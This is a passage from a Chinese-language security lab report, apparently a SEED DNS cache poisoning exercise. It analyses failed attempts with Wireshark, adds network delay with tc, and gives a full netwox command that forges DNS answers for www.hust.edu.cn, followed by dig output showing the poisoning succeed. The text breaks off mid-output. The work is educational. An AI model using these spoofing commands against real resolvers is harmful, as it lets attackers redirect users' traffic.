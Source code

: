 - 分析使用`Wireshark`获得的数据包`1.4.3-第二次失败的DNS缓存中毒攻击.pcapng`，此时的响应报文仍然没有携带任何回应信息，且该响应与对应的请求报文的时间差较大，猜想也受到了延时的影响，但如果该报文为`netwox`伪造，那么不应该受到延时影响，此时开始怀疑以上的分析是否正确：

![1.4.5.仍然没有正确响应](https://raw.githubusercontent.com/BIIIANG/pic/main/202204302217790.png)

- 为了确认以上攻击失败的原因分析是否正确，将物理机的网络断开，此时虚拟机虽然仍然具有网络连接，但已经无法得到外界的`DNS`请求，此时再重新进行攻击，在客户机进行一次`dig www.hust.edu.cn`尝试，发现此时若在`Wireshark`内以`DNS`为过滤条件，则全部都是`DNS QUERY`的数据包，没有找到`netwox`伪造的报文（见`1.4.4-第三次失败的DNS缓存中毒攻击(断网)`）：

![1.4.6.没有netwox伪造的报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204302217762.png)

- 此时突然发现，`netwox`本身一直提示有发送`DNS`响应，但此时在`Wireshark`中使用`DNS`进行过滤却无法发现对应的数据包，因此将过滤条件取消，查看所有数据包，发现了`netwox`发送的数据包，`Wireshark`没有将其解析为`DNS`数据包（见`1.4.4-第三次失败的DNS缓存中毒攻击(断网)`），查看这些数据包的信息，再与其他正常解析的`DNS`响应数据包比较，猜想是由于他们使用的是`1`号端口而不是`53`号端口导致的（**原因未知**）。查看之前攻击失败时捕获的数据包，发现与此处情况相同：

![1.4.7.netwox伪造的报文没有被正确解析](https://raw.githubusercontent.com/BIIIANG/pic/main/202204302217707.png)

- 此时将`-s "raw"`改为`-s "best"`再次尝试，攻击仍然失败，但此时观察`Wireshark`获得的数据包（见`1.4.5-第四次失败的DNS缓存中毒攻击.pcapng`），可以清楚地发现伪造的数据包`19`，只是相较于真实的响应数据包`8`，伪造数据包的到达速度仍然偏慢：

![1.4.8.第四次失败](https://raw.githubusercontent.com/BIIIANG/pic/main/202204302235538.png)

- 因此尝试增大延时**（以下实验均在该设置下进行）**：

```shell
[04/30/22]seed@VM:~$ tc qdisc show dev ens33
qdisc netem 8002: root refcnt 2 limit 1000 delay 1.0s
[04/30/22]seed@VM:~$ sudo tc qdisc del dev ens33 root
[04/30/22]seed@VM:~$ sudo tc qdisc add dev ens33 root netem delay 5s
```

![1.4.9.增大延时](https://raw.githubusercontent.com/BIIIANG/pic/main/202204302239690.png)

#### 1.4.2.2 成功的攻击

- 增大延时并清除`DNS`服务器的缓存后，再次使用`netwox`伪造`www.hust.edu.cn`的`IP`地址：`sudo netwox 105 -h "www.hust.edu.cn" -H "172.18.0.1" -a "ns.hust.edu.cn" -A "201.91.180.3" -d br-e4a075733e38 -T 11803 -f "src host 172.18.0.3" -s "best"`。
- 然后在客户机使用`dig www.hust.edu.cn`进行`DNS`请求，第一次`dig`超时没有得到回应；第二次`dig`可以看到伪造的所有信息均出现在结果中，且`TTL`均在`11803`附近，攻击成功：

```shell
root@DNS_User:/# dig www.hust.edu.cn

; <<>> DiG 9.10.3-P4-Ubuntu <<>> www.hust.edu.cn
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: SERVFAIL, id: 9773
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;www.hust.edu.cn.		IN	A

;; Query time: 4999 msec
;; SERVER: 172.18.0.3#53(172.18.0.3)
;; WHEN: Sat Apr 30 22:45:22 CST 2022
;; MSG SIZE  rcvd: 44

root@DNS_User:/# dig www.hust.edu.cn

; <<>> DiG 9.10.3-P4-Ubuntu <<>> www.hust.edu.cn
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 925
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 2
```